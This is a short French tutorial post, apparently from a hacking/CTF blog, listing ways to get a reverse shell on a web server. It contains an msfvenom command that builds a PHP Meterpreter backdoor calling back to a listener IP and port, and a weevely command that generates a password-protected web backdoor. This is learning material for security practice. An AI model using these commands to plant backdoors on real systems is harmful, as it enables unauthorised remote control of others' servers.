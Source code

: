 ```yaml
---
layout: post
section-type: post
title: Reverse shell
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Le but de cet article est de vous montrer les différentes façons de vous munir d'un "reverse shell".

Pour des raisons de modularité, un article traitant le reverse shell de façon complète sera rédigé et il fera réference à celui-ci ainsi qu'à plein d'autres disponibles sur mon site. 

---------------------------------------------

#### Pré requis 
1-Avoir les bases d'un langage de programmation côté serveur <br/>
2-Avoir installer et configurer une machine orientée "sécurité" (Kali linux, Parrot OS,...) <br/>
3-Avoir fait les configurations nécessaires dans votre routeur: cas d'une connexion distante

---------------------------------------------

#### Méthode 1: shell par défaut sur kali linux
  <pre><code data-trim class="yaml">
      #répertoire par défaut des "reverse shell" sur Kali linux
      cd /usr/share/webshell/php 
  </code></pre> <br/>

NB: N'oubliez pas de faire les modifications qui vont bien, notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 2: créer un reverse shell avec meterpreter
  <pre><code data-trim class="yaml">
      #reverse shell nommé enregistré sur le bureau sous "backdoor.php" au profit de la machine d'IP 10.23.201.17 écoutant sur le port 1234
      msfvenom -p php/meterpreter/reverse_tcp LHOST=10.23.201.17 LPORT=1234 > /Desktop/backdoor.php
  </code></pre> <br/>

---------------------------------------------


#### Méthode 4: créer un reverse shell avec weevely
  <pre><code data-trim class="yaml">
      #reverse shell enregistré sur le bureau sous "backdoor.php" avec le mot de passe "noLogMe"
      weevely generate noLogMe /root/Desktop/backdoor.php 
  </code></pre> <br/>

NB: N'oubliez pas de faire les modifications qui vont bien, notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 5: utiliser Internet
  visiter le site web : [http://pentestmonkey.net/](http://pentestmonkey.net/), par exemple

NB: Il ne faudra pas oublier de faire les modifications qui vont bien, notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 6: codez vous-même
  Nous reviendrons plus tard sur la logique de codage de votre propre reverse shell et le pratiquerons en C, python et PHP. Vous devinez donc que vous aurez besoin de savoir programmer en C ou en python ou en PHP en plus d'avoir des notions de base en réseau informatique

---------------------------------------------

